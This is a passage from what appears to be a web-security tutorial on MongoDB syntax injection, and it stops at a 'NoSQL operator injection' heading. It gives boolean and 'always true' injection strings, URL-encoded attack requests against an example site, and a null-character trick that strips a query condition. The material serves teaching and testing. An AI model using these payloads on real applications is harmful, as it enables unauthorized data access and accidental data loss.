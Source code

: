 ```markdown
# False condition
' && 0 && 'x
' && '1'=='2

# True condition
' && 1 && 'x 
' && '1'=='1
```

```
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+0+%26%26+'x
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+1+%26%26+'x
```

If the application behaves differently suggests that the false condition impacts the query logic, but the true condition doesn't.

### Overriding existing conditions

```markdown
# Always true: 
'||1||'
'||'1'=='1'

# Inject: fizzy'||1||'
https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%31%7c%7c%27

# Back-end code
this.category == 'fizzy'||1||''
```

The modified query returns all items (all the products in any category).

{{< hint style=warning >}}
If an application uses it when updating or deleting data, for example, this can result in accidental data loss.
{{< /hint >}}

**Null character**

MongoDB may ignore all characters after a null character. This means that any additional conditions on the MongoDB query are ignored.

```markdown
# Back-end code
this.category == 'fizzy' && this.released == 1

# Inject null char
https://insecure-website.com/product/lookup?category=fizzy'%00

# Back-end code result [removes the req for the released field to be set to 1]
this.category == 'fizzy'\u0000' && this.released == 1
```

## NoSQL operator injection
